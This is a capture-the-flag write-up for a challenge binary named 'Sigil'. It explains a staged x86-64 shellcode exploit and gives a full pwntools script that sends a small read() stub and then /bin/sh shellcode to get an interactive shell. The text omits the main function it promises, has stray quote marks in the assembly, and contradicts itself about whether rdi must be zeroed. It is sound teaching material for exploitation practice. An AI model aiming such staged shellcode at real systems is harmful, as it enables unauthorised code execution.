

# Sigil

The main funciton of sigil is below:


The following occurs:
* memory region located at address 0 is set to `read-write-execute` permissions
* read() of length 16
* call to the buffer just read

The gameplan for this exploit is to send an initial payload which will call `read()` into the `RWX` memory region. From here, we send the actual `/bin/sh` payload and `call 0` to execute it.

We can call read via a syscall to make this shellcode small. The following must be setup for this to work:
* rax - 0
* rdi - file descriptor to read from, i.e. stdin
* rsi - destination buffer
* rdx - 0x30 : Arbitrary length to read

The `rax` register is already set to `0` for our `read` syscall, so no modification needs to happen there. The `rdi` register needs to be a `0` in order to read from stdin, so a simple `xor rdi, rdi` will accomplish this for us. The destination buffer is already stored in the rdx register when our shellcode is run, which means we only need to execute a `mov rsi, rdx` in order to setup our destination buffer location. Lastly, we need to set a read length, and a simple `mov rdx, 0x30` will work.

The final stage one shellcode is below:
```
mov rsi, rdx' # rdx already contains our buffer location
mov edx, 0x30' # set our read length
add rsi, 10' # adjust our buffer a bit further down, so we don't overwrite our initial shellcode
syscall # Execute read
```

From here, we send a second shellcode containing our generic `/bin/sh` shellcode in order to receive our shell.

The full exploit is below:

```python
from pwn import * # pip install pwntools
context(arch='amd64')

HOST = '127.0.0.1'
PORT = 4444

# r = process('./sigil')
r = remote(HOST, PORT)

# Debug helper
"""
gdb.attach(r, '''
bp 40062a
c
''')
"""

"""
read() syscall
rax - 0
rdi - file descriptor to read from - 0 => stdin
rsi - destination buffer
rdx - length to read
"""

"""
rax is already 0 for syscall read
rdi is already 0
'xor rdi, rdi', # Read from stdin (file descriptor 0)
"""
shellcode = asm('\n'.join([
'mov rsi, rdx', # rdx already contains our buffer location
'mov edx, 0x30',
'add rsi, 10',
'syscall'
]))

# Ensure we send a full 16 byte Stage 1 payload.
shellcode = shellcode.rjust(16, '\x90')
log.info("Shellcode:[{}]  {}".format(len(shellcode), shellcode))

# Create second payload - simple /bin/sh payload
# Add a beginning nop sled, because why not?
log.info("Stage2: {}".format(shellcraft.sh()))
sc = asm(shellcraft.sh())
sc = sc.rjust(0x30, '\x90')
log.info("Stage2: {}".format(sc))

r.sendline(shellcode + sc)

r.interactive()

